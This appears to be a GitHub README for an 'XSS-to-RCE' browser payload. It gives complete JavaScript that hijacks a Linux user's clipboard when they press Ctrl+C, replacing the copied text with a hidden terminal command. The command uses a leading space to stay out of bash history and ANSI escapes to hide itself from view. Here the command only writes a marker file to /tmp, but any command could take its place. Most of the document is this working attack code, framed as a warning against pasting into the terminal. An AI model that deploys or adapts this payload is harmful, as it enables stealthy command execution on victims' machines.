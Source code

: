 # XSS-to-RCE

The use case for this javascript-payload is for websites that encourage linux-users to copy commands straight into the terminal.

If that website contains a XSS vulnerability, or an attacker is able to execute javascript on the page in some other way, the attacker is able to hijack the users clipboard and inject a terminal command that is quite stealthy.

The terminal command that is tricked upon the victim will not be recorded in the terminal history, and it will remove the malicious command from the terminal, by using some ANSI-tricks.

The copied command will also contain the legitimate text that the victim tried to copy, as not to rise suspicion.

So, lesson learned: never copy-paste into your terminal. Or don't allow javascript in your browser.

```javascript

document.addEventListener('keypress', (event) => {

  // Grab the keys of the user
	var key = event.which || event.keyCode; 
	var ctrl = event.ctrlKey ? event.ctrlKey : ((key === 17) ? true : false); 

	// Only hijack the victims copy-buffer if it is a linux-user
	var os = navigator.platform
	var testIfLinux = os.indexOf("Linux")


	if ((ctrl) && (key == 99) && testIfLinux == !-1){	
		// Get string that the user has highlighted
		var userstring = window.getSelection().toString()
		attack(userstring)
	}

});

function attack(userstring){

	// We need to create a new textarea (or some other element where we can write out text)
	var textarea = document.createElement('textarea');
	// Next we set the value of the text-area to the command we wish to execute
	// Include the initial space in the command so that the command won't be saved in bash history.
	// The ansi-code \033[F is equal to "Go up one line"
	// The ansi-code \033[2K is equal to "Clear this line"
	textarea.value = ' echo dödshackad > /tmp/hackad;printf "\\033[2K";\r\n' + userstring
	// The textarea needs to be appended to the DOM, in order to copy the text from it into the copy-buffer
	document.body.appendChild(textarea);
	// "Highlight" and select the text
	textarea.focus()
	textarea.select();
	document.execCommand("copy");
	document.body.removeChild(textarea);
}
```

